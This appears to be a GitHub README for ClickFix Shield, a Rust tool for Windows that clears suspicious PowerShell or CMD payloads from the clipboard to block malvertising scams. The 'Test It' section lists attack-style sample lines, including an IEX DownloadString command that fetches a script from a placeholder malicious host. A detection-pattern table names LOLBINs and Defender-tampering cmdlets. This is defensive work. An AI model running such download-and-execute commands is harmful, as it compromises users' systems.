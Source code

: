 🛡️ ClickFix Shield

By Josiah Golden

A lightweight Windows clipboard protection tool built in Rust.
ClickFix Shield detects and blocks suspicious PowerShell or CMD payloads copied to your clipboard —
preventing “ClickFix”-style malvertising attacks before they ever reach your system.


⚙️ What It Does

🧠 Monitors your clipboard for dangerous patterns (PowerShell, CMD, Base64 payloads)

🛑 Automatically clears malicious text before it can be pasted or executed

💾 Logs events to C:\ProgramData\ClickfixShield\shield.log

🪟 Runs silently in the system tray (no console window)

⏸️ Tray menu lets you Pause, Resume, Open Logs, Edit Config, or Exit


🚨 Why It Matters

Modern “ClickFix” and malvertising campaigns trick users into pasting one-liners like:

powershell -nop -w hidden -enc SGVsbG8=


ClickFix Shield intercepts those strings and wipes them before they can run, turning a potential compromise into a harmless copy-paste.


🧩 How It Works

Built in Rust 1.80+

Uses clipboard-win to monitor the Windows clipboard

Detects suspicious patterns via regex

Displays alerts with native Windows APIs (MessageBoxW)

System-tray interface built with tray-icon and tao

Configurable rules stored in JSON (C:\ProgramData\ClickfixShield\config.json)


🧠 Detection Patterns

| **Category**           | **Examples Matched**                        | **Description**                                                            |
| ---------------------- | ------------------------------------------- | -------------------------------------------------------------------------- |
| **LOLBINs**            | `mshta`, `rundll32`, `certutil`, `wmic`     | Living-off-the-land binaries often abused to execute or retrieve payloads. |
| **PowerShell Abuse**   | `IEX`, `DownloadString`, `FromBase64String` | Code execution directly from memory or remote sources.                     |
| **Run-box Commands**   | `powershell ...`, `cmd /c ...`              | Commands likely pasted into Run or terminal prompts.                       |
| **Defender Tampering** | `Set-MpPreference`, `Add-MpPreference`      | Attempts to disable or exclude Windows Defender protections.               |
| **Encoded Payloads**   | Long Base64 strings                         | Obfuscated content typically used for malware delivery.                    |


You can whitelist safe text patterns in config.json via the allow_regex array.


🧰 Installation & Setup

1️⃣ Download or build the binary

cargo build --release


Copy target\release\clickfix-shield.exe to:
C:\ProgramData\ClickfixShield\clickfix-shield.exe

2️⃣ (Recommended) Register Scheduled Task for Auto-Start

Run PowerShell as Admin:

$exe = "C:\ProgramData\ClickfixShield\clickfix-shield.exe"
$taskName = "ClickFixShield"

if (Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue) {
    Unregister-ScheduledTask -TaskName $taskName -Confirm:$false
}

$action = New-ScheduledTaskAction -Execute $exe
$trigger = New-ScheduledTaskTrigger -AtLogOn
$principal = New-ScheduledTaskPrincipal -UserId $env:USERNAME -LogonType Interactive -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -Hidden

Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Principal $principal -Settings $settings

3️⃣ Run it once

start "" "C:\ProgramData\ClickfixShield\clickfix-shield.exe"


It will appear in your tray and start monitoring instantly.


🧪 Test It

Copy any of these into your clipboard:

powershell -nop -w hidden -enc SGVsbG8=

IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')

cmd /c calc.exe

✅ The clipboard clears, an alert appears, and the event is logged.


⚡ Configuration

File: C:\ProgramData\ClickfixShield\config.json

{
  "allow_regex": [
    "^Hello world$",
    "^.*my-safe-snippet.*$"
  ],
  "poll_ms": 300
}


allow_regex: List of safe patterns to skip

poll_ms: Clipboard polling interval (ms)


📦 Build Info

| Field    | Value                         |
| -------- | ----------------------------- |
| Language | Rust                          |
| Version  | 0.2.0                         |
| Platform | Windows 10 / 11               |
| License  | MIT                           |
| Author   | Josiah Golden (@josiahgolden) |



📸 Screenshots (coming soon)

(Add a screenshot of your tray icon and alert popup here.)


🙌 Credits

Created by Josiah Golden (2025)
Built with 🦀 Rust and a mission to make security simpler for everyone.


💬 Connect

LinkedIn: linkedin.com/in/josiahgolden

Youtube: https://youtube.com/@josiahgold3n?si=02n0UaLYue1tVbgk

Instagram: https://www.instagram.com/josiahgold3n/

GitHub: github.com/josiahgolden